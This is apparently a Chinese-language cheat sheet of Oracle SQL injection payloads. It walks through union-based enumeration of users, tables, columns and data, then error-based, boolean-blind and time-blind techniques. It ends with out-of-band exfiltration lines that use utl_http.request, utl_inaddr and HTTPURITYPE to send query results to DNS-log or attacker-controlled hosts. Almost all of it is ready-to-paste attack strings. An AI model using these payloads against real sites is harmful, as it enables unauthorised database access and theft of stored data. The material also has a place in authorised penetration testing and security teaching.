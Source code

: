 # Oracle SQL注入

## 登录Oracle数据库

- sqlplus命令行
- navicat for oracle

## Oracle注释

- --单行注释
- /**/多行注释

## union联合

**oracle强匹配类型：查询的数据类型和字段类型必须一致**

```
?id=1 union select null,null,null from dual--
```

基本流程

1. 判断注入

2. 判断数据库是否为oracle

   ```
   and exists(select * from dual)--
   ```

3. 判断字段数

   ```
   order by 4--
   ```

4. 查询数据库相关信息

   ```
   ?id=1 union select null,(select banner from sys.v_$version where rownum=1),null,null from dual--  #查询数据库版本信息
   ?id=1 union select null,(select SYS_CONTEXT ('USERENV','CURRENT_USER') from dual),null,null from dual--  #获取数据库连接数据名
   ?id=1 union select null,(select instance_name from v$instance),null,null from dual--  #获取当前数据库实例名
   ```

5. 查询库名

   ```
   ?id=1 union select 1,(select owner from all_tables where rownum=1 and owner not in(select owner from all_tables where rownum=1)),null,null from dual--
   ?id=1 union select null,(select distinct owner from all_tables where rownum=1 and owner<>'SYS'and owner<>'OUTLN' and owner<>'SYSTEM'),null,null from dual--
   ```

6. 查询表名

   ```
   ?id=1 union select 1,(select table_name from user_tables where rownum=1),null,null from dual--
   ?id=1 union select 1,(select table_name from user_tables where rownum=1 and table_name<>'DEMO' and table_name<>'FLAG'),null,null from dual--
   ```

7. 查询字段名

   ```
   ?id=1 union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='DEMO'),null,null from dual--
   ?id=1 union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='DEMO' and column_name<>'ID' and column_name<>'NAME'),null,null from dual--
   ```

8. 查询数据

   ```
   ?id=1 union select 1,(select ID||NAME||AGE from DEMO where rownum=1),null,null from dual--
   ?id=1 union select 1,(select ID||NAME||AGE from DEMO where rownum=1 and NAME<>'zhangshan'),null,null from dual--
   ?id=1 union select 1,(select concat(NAME,AGE) from DEMO where rownum=1),null,null from dual--
   ```

   > PS：连接多个字段使用连接符号II,在oracle数据库中，concat函数只能连接两个字符串

## 报错注入

相关函数

- dbms_xdb_version.checkin()

  ```
  ?id=1 and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null
  ```

- dbms_xdb_version.uncheckout()

  ```
  ?id=1 and (select dbms_xdb_version.uncheckout((select user from dual))from dual) is not null
  ```

- utl_inaddr.get_host_name()

  > 说明：这种方法在Oracle 8g,9g,10g中不需要任何权限。11g以后的版本要使用此方法进行报错注入，则当前数据库用户必须有网络访问权限。
  > 报错方法：获取ip地址，其参数如果解析不了会报错，显示传递的参数

  ```
  ?id=1 and utl_inaddr.get_host_name((select user from dual))=1--
  ```

- 其他报错函数

  ![image-20220920150442786](https://oos.luoyunhao.com/blog-img/202209201504884.png)

## 布尔盲注

- decode()

  ```
  ?id=1 and 1=(select decode(substr((select owner from all_tables where rownum=1),1,1),'S',1,0) from dual)--  #截取第一个字符，是S则返回1
  ```

- instr()

  搜索指定字符串，存在则返回在查询结果中的位置

  ```
  ?id=1 and 1=(instr((select owner from all_tables where rownum=1),'T'))--  #判断第一个字符是否为T
  ```

- 利用ascii和substr判断

  ```
  ?id=1 and ascii(substr((select table_name from user_tables where rownum=1),1,1))=68--
  ```

## 时间盲注

- dbms_pipe.receive_message

  ```
  ?id=1 and dbms_pipe.receive_message('ICQ',5)=1-- #接收ICQ并等待5s
  ```

  配合decode()

  ```
  ?id=1 and 1=(select decode(substr((select owner from all_tables where rownum=1),1,1),'S',dbms_pipe.receive_message('ICQ',5),0) from dual)--  #截取第一个字符，是S则延时5s
  ```

## 数据外带

- utl_http.request()

  该函数用于发起http请求（可以利用该函数进行DNS或HTTP数据外带）

  ```
  ?id=1 and utl_http.request('http://'||(select user from dual)||'.xxx.dnslog.cn')=1--
  ?id=1 and utl_http.request('http://'||(select owner from all_tables where rownum=1)||'.vhlavh.dnslog.cn')=1--
  ?id=1 and utl_http.request('http://xxx/'||(select user from dual))=1--
  ```

  > 判断该函数是否可用
  >
  > ```
  > ?id=1 and exists(select count(*) from all_objects where object_name='UTL_HTTP')--  #回显正常则说明可用
  > ```

- utl_inaddr.get_host_address()

  从域名转换成IP地址，发起DNS查询请求

  ```
  ?id=1 and utl_inaddr.get_host_address((select user from dual)||'.xxx.dnslog.cn')=1-- #测试时无用
  ```

- HTTPURITYPE

  HTTP数据外带

  ```
  ?id=1 and (select HTTPURITYPE('http://x.x.x.x:9090/'||(select
  user from dual)).GETCLOB() from dual)is not null--
  ```

  